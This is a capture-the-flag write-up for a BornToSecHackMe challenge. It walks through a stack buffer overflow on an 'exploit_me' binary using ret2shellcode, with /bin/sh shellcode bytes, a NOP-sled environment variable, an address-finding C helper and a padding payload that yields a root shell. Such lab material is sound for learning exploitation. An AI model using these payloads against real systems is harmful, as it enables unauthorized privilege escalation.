 Anything written beyond those 140 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll see two of them. First with a ret2shellcode and then the ret2libc way.

## Ret2shellcode

#### Explanation
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

Our goal is to write this shellcode in memory or in an environment variable and jump to it, it will then be executed, which will spawn a shell. Executing our shellcode is basically the equivalent of running `system("/bin/sh")`.

#### Exploit
We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
zaz@BornToSecHackMe:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
zaz@BornToSecHackMe:/tmp$ ./a.out
0xbffff865
```
> That address will be different for you, you'll have to change it in the payload.

Alright, let's craft our payload:
```
padding + address of shellcode

"\x90"*140 + "\xbf\xff\xf8\x65"
```

Let's run it:
```bash
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print("\x90"*140 + "\xbf\xff\xf8\x65"[::-1])'`
��������������������������������������������������������������������������������������������������������������������������������������������e���
# whoami
root
```
